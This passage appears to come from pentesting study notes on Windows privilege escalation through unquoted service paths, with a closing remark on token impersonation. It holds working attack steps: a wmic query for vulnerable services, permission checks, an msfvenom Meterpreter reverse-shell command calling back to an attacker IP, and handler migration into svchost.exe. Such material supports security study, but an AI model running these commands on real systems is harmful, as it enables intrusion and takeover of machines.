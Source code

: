Once we have impersonated an access token, it could be useful to use: `list_tokens -u` again to see if any further access tokens such as `NT AUTHORITY\SYSTEM` are available as we can impersonate these newly available tokens, too.

## Unquoted Service Paths

Unquoted Service Path vulnerabilities abuse the way Windows searches for binaries when a service is started. They are found when a path to a binary contains spaces and has not been put into quotations.

First of all, we need to identify a vulnerable service. We can use automated tools such as *jaws.ps1* to do this, but we can do it manually, too. The manual way is to use wmic like so:

```shell
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

We will need to make sure that we can stop and start the service as the user we have gained access to the victim system as. We can do this using `sc stop VulnService` and `sc start VulnService` We can check the state of a service using `sc query VulnService`

We also need to make sure that the vulnerable service starts as the *system* user. We can do this by running `sc qc VulnService` and looking at the SERVICE_START_NAME which will hopefully show as LocalSystem

Next, we need to stop the service and then check the permissions of the targeted directory where we aim to upload our malicious executable file. To do this, we can navigate to the parent directory of the targeted directory and run `icacls VulnDirectory` We are looking to see if we have the ability to write to the directory or to modify it. We will hopefully see `(M)` or `(W)`

Our task is to upload malware into the unquoted service path at a location which will be searched by Windows before the legitimate executable for the service is found. The malware will depend on the context of the compromised machine, but a simple example would be a reverse meterpreter shell generated using msfvenom:
```shell
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.46.6 LPORT=4445 --platform Windows -f exe > Vuln.exe
```

Assuming that we can write to the targeted directory, we can now upload our malware in the path of the service and give it a name which will be executed when the service starts.

When trying to work out where to place the malware, we can look for where there are spaces in the unquoted service path. Here is an example: `C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe` In this example, we could try to place our malware at the following path: `C:\Program Files\VMware\VMware.exe`

Here is another example of an unquoted service path: `C:\Program Files(x86)\Canon\IJ Scan Utility\SETEVENT.exe` We could try to place our malware at the following path: `C:\Program Files(x86)\Canon\IJ.exe`

We can now start a handler before starting the service on the victim machine. It might be that the shell is unstable, so we can migrate it to a different process when it starts by modifying the handler before running it using: `set AutoRunScript migrate -n svchost.exe` We could also use `set AutoRunScript migrate -f` to spawn a new *notepad* process which will be migrated to automatically.
